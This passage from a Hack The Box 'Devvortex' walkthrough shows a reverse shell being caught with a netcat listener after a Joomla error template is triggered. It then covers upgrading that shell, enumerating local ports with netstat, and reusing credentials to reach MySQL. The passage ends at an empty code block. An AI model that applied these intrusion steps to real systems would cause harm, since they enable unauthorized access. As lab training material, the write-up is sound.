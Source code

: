And now, when we visit the error template page at `http://dev.devvortex.htb/templates/cassiopeia/error.php`, we will catch the reverse shell:
```
┌──(kali㉿kali)-[~/Documents/Devvortex]
└─$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.10.14.102] from (UNKNOWN) [10.10.11.242] 56650
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 23:12:26 up  3:36,  1 user,  load average: 3.71, 1.14, 0.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
logan    pts/1    10.10.14.203     21:26   50:30   0.49s  0.03s sshd: logan [priv]  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## Lateral Movement
### Reusing credentials to access mysql
We need to improve the stability of the shell; my preferred way is using `script`, although python is common as well:
```
$ script -qc /bin/bash /dev/null
www-data@devvortex:/$ ^Z
zsh: suspended  nc -nvlp 8000

┌──(kali㉿kali)-[~/Documents/Devvortex]
└─$ stty raw -echo; fg 
[1]  + continued  nc -nvlp 8000

www-data@devvortex:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:/$ 
```
`^Z` refers to backgrounding the shell session, where we enter `stty raw -echo; fg` in our kali session.
Using netstat, we can see mysql is running on port 3306:
```
www-data@devvortex:/$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      894/nginx: worker p 
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      894/nginx: worker p 

```
When we try recycling credentials for lewis, we find that we can enter the mysql database!
```
```